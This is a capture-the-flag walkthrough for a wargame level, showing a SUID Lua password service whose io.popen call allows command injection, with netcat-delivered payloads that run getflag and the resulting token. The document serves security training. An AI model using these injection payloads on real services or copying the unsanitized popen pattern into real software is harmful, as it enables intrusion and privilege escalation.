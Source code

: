 ### Solution

1. **Check files in home directory:**

	```bash
	ls -l
	```

	Output:

	```
	-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
	```

	The script is a **SUID Lua script** owned by `flag11`.

2. **Analyze the Lua code:**

	```lua
	local socket = require("socket")
	local server = assert(socket.bind("127.0.0.1", 5151))

	function hash(pass)
		prog = io.popen("echo "..pass.." | sha1sum", "r")
		data = prog:read("*all")
		prog:close()

		data = string.sub(data, 1, 40)
		return data
	end

	while 1 do
		local client = server:accept()
		client:send("Password: ")
		client:settimeout(60)
		local l, err = client:receive()
		if not err then
				print("trying " .. l)
				local h = hash(l)

				if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
						client:send("Erf nope..\n");
				else
						client:send("Gz you dumb*\n")
				end
		end
		client:close()
	end
	```

	The Lua script uses:

	```lua
	io.popen("echo "..pass.." | sha1sum", "r")
	```

	This allows **command injection** because it does **no input sanitization**.

3. **Exploit via Netcat.**

	Connect to the local service:

	```bash
	nc 127.0.0.1 5151
	```

	When prompted for password, inject a shell command using backticks or semicolons:

	```bash
	Password: `getflag` > /tmp/flag11
	```

	Or:

	```bash
	Password: foo; getflag > /tmp/flag11
	```

4. **Verify the flag:**

	```bash
	cat /tmp/flag11
	```

	Output:

	```
	Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
	```

	You’ve successfully executed `getflag` with `flag11`’s privileges.
